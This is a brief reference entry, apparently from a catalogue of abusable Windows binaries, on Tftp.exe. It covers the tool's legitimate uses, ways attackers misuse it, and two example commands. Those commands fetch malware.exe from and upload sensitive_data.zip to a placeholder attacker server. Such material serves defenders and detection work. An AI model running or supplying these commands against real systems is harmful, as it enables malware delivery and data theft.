 # Tftp.exe
## What is it?
*Tftp.exe (Trivial File Transfer Protocol) is a built-in Windows utility used for transferring files over a network using the TFTP protocol.
It is lightweight and commonly used for network booting and firmware updates.*

## Legitimate Use
- *Used to transfer files between network devices and servers.*
- *Commonly employed in PXE boot environments to load OS images.*
- *Utilized for router and switch firmware upgrades.*

## How to abuse it
- *Downloading malicious payloads from a remote server.*
- *Exfiltrating sensitive data from a compromised system.*
- *Avoiding traditional security controls by using a lesser-monitored protocol.*

## Example Attacks
```
tftp -i [attacker_server] GET malware.exe

tftp -i [attacker_server] PUT sensitive_data.zip
```
